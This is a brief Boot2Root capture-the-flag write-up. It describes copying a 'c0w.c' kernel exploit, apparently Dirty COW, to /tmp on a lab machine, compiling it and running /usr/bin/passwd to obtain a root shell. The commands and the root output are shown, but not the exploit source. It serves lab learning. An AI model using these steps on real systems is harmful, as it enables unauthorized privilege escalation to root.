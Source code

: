 # Boot2Root WriteUp 1
## Step 1

We need a shell to run our exploit so we use the first part of `writeup1`.

We can start when we have the `www-data` reverse shell but its easier whit user `zaz` cause we have an ssh access.

## Step 2

We upload the `c0w.c` exploit to /tmp folder, compile it and run it.

    $> scp ./script/c0w.c laurie@192.168.56.101:/tmp/
    $> gcc -pthread c0w.c
    $> ./a.out

In another window, run `/usr/bin/passwd`.

    $> /usr/bin/passwd
    $> whoami
        root
    $> id -u
        0

## Step 3
Done !